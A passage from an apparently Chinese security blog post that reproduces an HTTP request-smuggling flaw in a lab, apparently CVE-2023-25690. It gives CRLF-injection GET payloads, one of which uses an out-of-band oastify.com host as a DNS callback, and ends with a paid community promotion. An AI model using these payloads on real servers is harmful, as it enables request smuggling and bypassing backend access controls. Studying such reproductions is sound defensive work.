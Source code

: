 发送如下请求，uri中携带控制字符：  
```

GET /hello/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED
Host: 192.168.23.132:8000
```  
  
经过apply_rewrite_list函数后，r->args被设置为name=$1的形式，而$1也就是r->uri中匹配"^/hello/(.*)"的部分，值得注意的是，这里的r->uri是经过了url解码的，我们的控制字符被成功解析，从而有了进行CRLF注入的机会：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jk1vr1Os46apFvx6fptT9mYJSjoN5PF9HmCSLiaaariczGss7e3SGFcXGDOuULowqdMncEnBJHGI7SA/640?wx_fmt=png&from=appmsg "")  
  
按F5直接运行后，查看Kali服务器的access.log，可以看到请求成功发送给了后端服务器，造成请求走私：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jk1vr1Os46apFvx6fptT9mYFnamcq3CoibaHdPia0x5OlAZxBft619Ys0Wic9sldHf68giakNGXuUh2AQ/640?wx_fmt=png&from=appmsg "")  
  
由此可以得知可控部分在整个请求头的中间，因此使用以下Payload进行测试（假设后端服务器存在类似index.php?secret=的实现方式）：  
```

GET /hello/1 HTTP/1.1%0D%0AHost: localhost%0D%0A%0D%0AGET /index.php%3fsecret=e9oqiv225m7dzu6l2475rshga7gy4ssh.oastify.com
Host: 192.168.23.132:8000
```  
  
获得DNSlog响应。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jk1vr1Os46apFvx6fptT9mYfwLZksDLSNSC9uLyUWqf9v8cqFenOxGdiaZAClq1hNKYSTd3RTIcM5A/640?wx_fmt=png&from=appmsg "")  
参考资料：  
  
https://forum.butian.net/share/2180https://github.com/dhmosfunk/CVE-2023-25690-POC  
  
**加入星球，随时交流：**  
  
****  
**（前50位成员）：99元/年****（前100位成员）：128元/年****（****100位+成员）：199元/年**![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～****====正文结束====**  
  
  
